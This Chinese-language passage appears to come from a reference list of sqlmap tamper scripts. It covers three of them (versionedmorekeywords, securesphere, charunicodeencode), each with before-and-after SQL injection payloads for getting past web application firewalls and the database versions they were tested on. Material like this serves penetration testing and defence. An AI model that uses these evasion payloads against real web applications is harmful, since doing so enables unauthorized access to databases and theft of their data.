 在以下版本做过测试:

```
Microsoft SQL Server 2005 MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0
```

# 其他类型：

**1:versionedmorekeywords.py**

作用：注释绕过

示例：

```
1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# 
1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#
```

版本要求:

```
MySQL >= 5.1.13
```

**2:securesphere.py**

作用：追加特制的字符串

示例：

```
'1 AND 1=1'
"1 AND 1=1 and '0having'='0having'"
```

在以下版本做过测试:

All

**3:charunicodeencode.py**

作用：字符串 unicode 编码

示例：

```
SELECT FIELD%20FROM TABLE
%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
```

版本要求:

```
ASP
ASP.NET
在以下版本做过测试:
Microsoft SQL Server 2000
Microsoft SQL Server 2005
MySQL 5.1.56
PostgreSQL 9.0.3
```
